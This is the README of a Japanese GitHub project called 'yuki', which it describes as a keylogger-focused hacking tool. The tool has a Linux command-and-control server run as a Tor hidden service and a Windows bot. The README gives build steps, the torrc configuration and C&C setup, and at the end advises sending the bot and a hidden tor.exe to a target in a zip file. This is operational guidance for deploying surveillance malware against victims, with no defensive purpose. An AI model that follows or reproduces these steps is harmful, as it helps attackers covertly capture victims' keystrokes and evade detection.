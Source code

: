 # yuki
keylogger搭載してるというか、それに特化したハッキングツール。<br>

ちなみに、カレントディレクトリの表示は動作確認用

## 動作環境
### C&C
* Linux (Debian)
### Bot
* Windows 10

## 注意
使用するとき、仮想マシンが必須になるかもしれません。<br>
あと、多少のバグは許して...

## コンパイル
WindowsとLinuxと同時に使って環境構築をしていきます。<br>
まずは、Linuxから設定をしていきます。<br>

Torをインストール
```
$ sudo apt install tor
```
インストールが終わったらtorrcを編集します。
```
$ sudo vi /etc/tor/torrc
```
ソースコードの関係上以下の通りに書き換えてください。
```
HiddenServiceDir /var/lib/tor/hidden_service/
HiddenServicePort 80 127.0.0.1:8080
```
ここでほぼほぼLinuxでの設定は完了します。<br>
では、以下のコマンドを実行しちゃって終わらせちゃいましょう。
```
$ bash build.sh
```
ちなみに、onionサイトのドメイン名を確認するには
```
$ sudo cat /var/lib/tor/hidden_service/hostname
```

<br>
次は、Windowsにうつって環境構築していきます。<br>
ぶっちゃけて言うとクロスコンパイラ使えば問題ないと思いますが、めいんどいので今回は解説しません。<br>

まず、botというディレクトリのなかのmain.cppを開きます。<br>

そしたら、xxxxxxxxxxxxxxxxxxxxxxxxxxx.onionをcncサーバのドメイン名に書き換えてください。
```c
#define cnc_onion_server    "xxxxxxxxxxxxxxxxxxxxxxxxxxx.onion"
```
終わったらbuild.batを実行してコンパイル終了です。

## 使い方
必ず最初にLinuxでcnc.outを実行してください。
```
$ ./cnc.out
```
そしたら、コンパイルしたbot.exeとtor.exeを同時にターゲットに送信してください。<br>
そのときにtor.exeを隠しファイルに設定してzipファイルにして送るといいことがあります。

## 参考資料
[RAT](https://github.com/ware255/RAT) <br>
[ Working with Tor (C/C++) ](https://gist.github.com/anhldbk/f62fbe5e5a0e48740c6959e3e0907c81) <br>
[ Simple keylogger in C++ ](https://gist.github.com/cdohara/99f3ac257b6f98d723818aedd1c39a4e)
